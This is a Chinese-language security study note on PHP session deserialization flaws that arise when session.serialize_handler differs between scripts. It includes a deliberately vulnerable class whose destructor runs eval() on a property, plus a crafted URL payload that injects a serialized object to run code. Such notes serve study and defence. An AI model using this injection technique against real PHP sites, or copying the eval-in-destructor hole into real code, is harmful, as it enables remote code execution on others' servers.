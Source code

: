 # Session的不同解析方式

## 参考

- https://secure.php.net/manual/zh/session.configuration.php#ini.session.serialize-handler
- https://blog.spoock.com/2016/10/16/php-serialize-problem/

## 分析
PHP中的Session的实现是没有的问题，在php.ini中session.serialize_handler可以设置序列化/解序列化的处理器名字，默认处理引擎是PHP，另外还有2个。
- `php_binary`：键名的长度对应的ASCII字符+键名+经过serialize()函数序列化处理的值
- `php`：键名+竖线+经过serialize()函数序列处理的值
- `php_serialize(PHP>5.5.4)`：经过serialize()函数序列化处理的值

![](../images/19-7-10_PHP_Session不同解析方式_1.png)
在php中，`session.serialize_handler`可以通过`ini_set('session.serialize`
`_handler','xxxxx')`来设置。如果通过`ini_set`函数使得PHP处理session时，序列化和反序列化的处理器不同，那么就可能造成漏洞。

## 利用

**index.php**

```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
$_SESSION["spoock"]=$_GET["a"];
```

us2.php
```php
<?php
ini_set('session.serialize_handler', 'php');
session_start();
class lemon {
    var $hi;
    function __construct(){
        $this->hi = 'phpinfo();';
    }
    
    function __destruct() {
         eval($this->hi);
    }
}
```

访问

```php
http://127.0.0.1/?a=|O:5:%22lemon%22:1:{s:2:%22hi%22;s:14:%22echo%20%22spoock%22;%22;}
```

然后访问

```php
http://127.0.0.1/us2.php
```


![](../images/19-7-10_PHP_Session不同解析方式_2.png)